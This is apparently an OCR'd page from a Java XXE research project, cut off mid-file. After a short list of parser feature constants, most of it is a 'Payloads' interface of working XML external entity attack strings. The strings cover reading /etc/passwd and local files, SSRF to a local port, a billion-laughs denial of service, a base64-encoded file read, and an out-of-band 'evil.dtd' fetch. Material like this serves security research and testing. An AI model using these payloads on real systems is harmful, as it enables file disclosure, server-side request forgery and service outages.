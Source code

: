 ```{% highlight xml %}
    String EXTERNAL_GENERAL_ENTITIES = "http://xml.org/sax/features/external-general-entities";
    String DISALLOW_DOCTYPE_DECL = "http://apache.org/xml/features/disallow-doctype-decl";
    String EXTERNAL_PARAMETER_ENTITIES =  "http://xml.org/sax/features/external-parameter-entities";
    String LOAD_EXTERNAL_DTD = "http://apache.org/xml/features/nonvalidating/load-external-dtd";
}
{% endhighlight %}

payloads

{% highlight java %}
public interface Payloads {
    String flag = "F:\\Research\\java\\XXE\\bit-xxe\\src\\main\\java\\flag.txt";
    String special_character = "F:\\Research\\java\\XXE\\bit-xxe\\src\\main\\java\\fstab";
    String boot = "C:\\boot.ini";
    String internal_dtd = "F:\\Research\\java\\XXE\\bit-xxe\\src\\main\\java\\info.dtd";
    String port = "1446" ;

    String internal = "<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo [\n" +
            "<!ENTITY ac \"Hacker\">]>\n" +
            "<foo>&ac;</foo>";

    String readfile = "<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo [\n" +
            "<!ENTITY ac SYSTEM \"" + flag +"\">]>\n" +
            "<foo>&ac;</foo>";

    String ssrf = "<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo [\n" +
            "<!ENTITY ac SYSTEM \"http://127.0.0.1:" + port + "/pwned\">]>\n" +
            "<foo>&ac;</foo>";

    String ftp ="<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo [\n" +
            "<!ENTITY ac SYSTEM \"ftp://whoami/file:///etc/passwd\">]>\n" +
            "<foo>&ac;</foo>";

    String Dos = "<!--?xml version=\"1.0\" ?-->\n" +
            "<!DOCTYPE lolz [<!ENTITY lol \"lol\"><!ELEMENT lolz (#PCDATA)>\n" +
            "<!ENTITY lol1 \"&lol;&lol;&lol;&lol;&lol;&lol;&lol;\">\n" +
            "<!ENTITY lol2 \"&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;\">\n" +
            "<!ENTITY lol3 \"&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;\">\n" +
            "<!ENTITY lol4 \"&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;\">\n" +
            "<!ENTITY lol5 \"&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;\">\n" +
            "<!ENTITY lol6 \"&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;\">\n" +
            "<!ENTITY lol7 \"&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;\">\n" +
            "<!ENTITY lol8 \"&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;\">\n" +
            "<!ENTITY lol9 \"&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;\">\n" +
            "<tag>&lol9;</tag>";

    String Base64 = "<?xml version=\"1.0\"?>\n" +
        "<!DOCTYPE test [ <!ENTITY % init SYSTEM \"data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk\"> %init; ]><foo/>\n";

    String external = "<?xml version=\"1.0\"?>\n" +
            "<!DOCTYPE foo SYSTEM \""+internal_dtd+"\">]>\n" +
            "<foo>&ifo;</foo>";

    String external_dtd_oob = "<?xml version=\"1.0\"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM \'http://localhost:" + port + "/evil.dtd\'>%remote;%init;%trick;]>";

    String CDATA_Bypass = "<?xml version =\"1.0\"?>\n"+
```
